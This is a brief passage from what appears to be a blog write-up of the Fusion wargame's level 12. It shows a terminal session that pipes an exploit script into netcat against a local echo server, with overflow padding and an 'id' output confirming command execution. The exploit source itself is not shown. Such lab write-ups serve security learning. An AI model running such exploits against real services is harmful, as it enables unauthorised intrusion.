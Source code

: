 {% endhighlight %}

Upon running the exploit, we can confirm that it actually works!

~~~
fusion@fusion:~$ python level12.py | nc 127.0.0.1 20012
Basic echo server. Type 'quit' to exit
You said, "lmnoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCDDDD"
Hmmm, how did this happen?
uid=20012 gid=20012 groups=20012
You said, "quit"
~~~

![Success!]({{ site-url }}/assets/post_images/fusion_level12_celebration.gif)

* * * 

**I'll be back**
